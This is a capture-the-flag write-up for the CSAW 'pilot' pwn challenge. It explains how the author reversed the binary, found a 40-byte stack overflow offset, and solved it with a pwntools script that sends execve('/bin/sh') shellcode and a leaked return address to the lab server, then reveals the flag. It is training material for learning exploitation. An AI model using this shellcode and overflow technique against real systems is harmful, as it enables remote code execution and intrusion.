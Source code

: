 ```yaml
---
layout: page
title: Pilot writeup - 75 point pwn challenge
---
```

![pilot](https://user-images.githubusercontent.com/41026969/50910626-2e3dd000-13fc-11e9-8ec9-58243f541a8e.png)

Ok so the description doesn't really give us much of anything, just an executable to work with and a ```nc``` address.
##### note: this ```nc``` address won't work for you since it's unique to each individual and requires vpn, check out links in my CTF page and look at the 365 CSAW link.

First, I did a few checks:

![pilot](https://user-images.githubusercontent.com/41026969/50911285-86290680-13fd-11e9-97aa-da7c1e90efe5.png)

To quickly explain what I did for every command I did:
```chmod +x pilot``` gives pilot permission to execute (to run). If we didn't, if we tried to run it it'd say "Permission Denied." ```file pilot``` checks what kind of file pilot is. We learn that this is a 64 bit executable which means 8 byte addresses (which may be handy to us further down). ```checksec pilot``` checks the properties of an executable. We see that the program does not utilize a [stack canary](https://en.wikipedia.org/wiki/Stack_buffer_overflow#Stack_canaries) (which essential checks to see if the stack has been changed for buffer overflow possibility). We then just test the program by passing a bunch of letters into it.

### Reverse engineering time
So I opened the file in IDApro 64 bit. In IDA, you can generate pseudocode by clicking ```view -> open subviews -> generate pseudocode```. Looking at the ```main``` function, I see this interesting piece of code:

![pilot](https://user-images.githubusercontent.com/41026969/51258592-56877a80-1978-11e9-844a-75a29572e2b8.png)

So from the code above, we can see a few things. 
1) The read() instruction is called
2) The function will take in 64 bytes (or characters) into standard input (in IDA, you can right click and convert the hex to decimal)
3) if what we inputted is less than or equal to 4 bytes, we see that ```[*]There are no commands....``` and ```[*]Mission Failed....``` will get printed out - that's not what I want...

I looked at the disassembly x86 instructions next, specifically looked at the main function again. I saw this:

![pilot](https://user-images.githubusercontent.com/41026969/51260034-60f74380-197b-11e9-8d90-c6202fc5fe3e.png)

This is the part where the [function prologue](https://en.wikipedia.org/wiki/Function_prologue) takes place. We see that the function only allocates 32 bytes of space (I converted the hex value IDA says into decimal) into the stack, this is strange because even though the function prologue creates the stack with 32 bytes of memory, the buffer that we're inputting into is 64 bytes... This program is exploitable via buffer overflow.

### Exploiting
To know better about the program and the stack, I used gdb with [peda](https://github.com/longld/peda) (python exploit development assistance). peda is an excellent tool as it allows us to observe the stack and registers after the program exits and it includes some fancy color text. So first I run the program in gdb peda by typing ```gdb pilot```. Then I type ```r``` to run the program. 

So we need to find how many bytes we need to feed into the input before the return address is popped. To do this, when the program is run, I first input ```AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPP```. We input this because when we examine the stack registers later, we will be able to see which letters have overflowed through the base pointer into the stack pointer. Here's a picture of it below:

![pilot](https://user-images.githubusercontent.com/41026969/51324731-7337b700-1a39-11e9-8471-eed6010d64cb.png)

So if you didn't read the [function prologue](https://en.wikipedia.org/wiki/Function_prologue) page in the beginning of this writeup here's a quick summary:

1) the return address is pushed onto the stack (so the function knows where to return after the function called is done)
2) the base pointer is pushed onto the stack
3) the stack pointer is made equal to the base pointer
4) the stack pointer is then subtracted by a set amount (depends on some stuff). The space that's made between the stack pointer and the base pointer is used to memory. This is the space in memory that we will overwrite and exploit

In the picture above the ```RBP``` stands for base pointer, and wee see it's: ```RBP: 0x4a4a4a4a49494949 ('IIIIJJJJ')```. Hence, it took from A (four times) to J (four times) to overwrite into the return address (total of 40 characters).

So we can write some shellcode that will execute to /bin/sh to get us a shell running as the host (pilot). Doing some researching we find shell code for 64 bit /bin/sh exploit [here](http://shell-storm.org/shellcode/files/shellcode-811.php).

Here is the code I came up with (also attached above):
```python
# Exploit for the pilot CSAW challenge

from pwn import *

session = remote("10.67.0.1", 30983)

session.recvuntil("[*]Location:")

address = session.recvuntil("\n")[:-1]

shellcode = "\x31\xc0\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\xb0\x3b\x48\x89\xe7\x31\xf6\x31\xd2\x0f\x05"

payload = shellcode + "A" * (40-len(shellcode)) + p64(int(address, 16)) 

print("Address: " + str(address))
print("total payload: " + str(payload))

session.sendline(payload)

session.interactive()
```
Walking through the code:

- I basically open a session to the address
- I start reading the adddress that's given from the program and store it into ```address``` then remove the new line character at the end
- the ```shellcode``` variable is from the link from googling
- to put together the payload, it's first the shellcode, then number of bytes times (40 minus length of shellcode) to make sure we don't over write too much. Then the last part is simply the 8 byte address (padded with 2 extra bytes at the end because the original address given is 6 bytes total) that was given from the program.
- we then just send the payload and set up interactive().

##### note: that nc address won't work (it's based on your CSAW365 account) and you need a vpn.

![pilot](https://user-images.githubusercontent.com/41026969/51542112-77444a00-1e28-11e9-96c8-dd56335d3f02.png)

Running the code will come up with the flag:
```flag{1nput_c00rd1nat3s_Strap_y0urse1v3s_1n_b0ys}```
